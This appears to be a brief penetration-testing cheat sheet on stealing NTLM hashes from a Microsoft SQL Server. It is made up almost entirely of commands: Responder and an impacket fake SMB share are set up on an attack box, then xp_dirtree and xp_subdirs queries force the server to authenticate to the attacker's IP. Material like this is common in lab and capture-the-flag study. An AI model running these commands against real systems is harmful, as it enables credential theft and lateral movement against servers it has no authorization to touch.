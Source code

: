 -- -
Get the MSSQL server to try to communicate with a fake SMB server and pull the hash from that authentication using responser. 
### Setup Responder
```bash
# on attack machine
sudo responder -I <interface>
sudo responder -I tun0
```
### Setup smbserver
Alternatively, you can setup a fake malicious smb share on the attack box and see the hash there.
```bash
sudo impacket-smbserver share ./ -smb2suppport
```
### Send Hash to responder
```mysql
# xp_dirtree
EXEC master..xp_dirtree '\\<attack ip>\<share>'
GO
EXEC master..xp_dirtree '\\10.10.110.17\share'
GO

# xp_subdirs
EXEC master..xp_subdirs '\\<attack ip>\<share>'
GO
EXEC master..xp_subdirs '\\10.10.110.17\share'
GO
```
